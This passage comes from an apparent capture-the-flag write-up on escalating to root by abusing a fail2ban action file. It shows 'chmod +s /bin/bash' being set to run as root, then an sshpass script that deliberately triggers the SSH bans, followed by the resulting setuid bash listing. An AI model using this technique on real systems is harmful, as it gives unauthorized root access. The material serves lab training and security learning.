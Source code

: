 With "chmod +s /bin/bash" we're going to give the suid bit to bash. The suid bit provides the user running it the same privileges that the user who created it. In this case, root is the user who created it. If we run it, we'll have root privileges during its execution.
The next step is restarting the service to get the file iptables-multiport.conf updated.

```bash
sudo /etc/init.d/fail2ban restart
```

Now, when we fail to login into the system with ssh more than 5 times, the configuration set in iptables-multiport.conf will take place. For that, from the attacker command line:

1. We install sshpass, a program that allows us to pass passwords in the command line to ssh. This way we can automate the login process:

```bash
sudo apt install sshpass
```

2. Write a script in the attacker machine:

```bash
nano wronglogin.sh
```

```bash
#!/bin/bash

sshpass -p "wrongpassword" ssh michael@10.10.11.166
sshpass -p "wrongpassword" ssh michael@10.10.11.166
sshpass -p "wrongpassword" ssh michael@10.10.11.166
sshpass -p "wrongpassword" ssh michael@10.10.11.166
sshpass -p "wrongpassword" ssh michael@10.10.11.166
sshpass -p "wrongpassword" ssh michael@10.10.11.166
```

Add execution permission:

```bash
chmod +x wronglongin.sh
```

3. Launch the script:

```bash
./wronglogin.sh
```


Once the script is executed, the suid bit will be activated for bash. Run:

```bash
 ls -l /bin/bash
```

And you will see:

```
-rwsr-sr-x 1 root root 1168776 Oct 20  2022 /bin/bash
```

Now if we run:
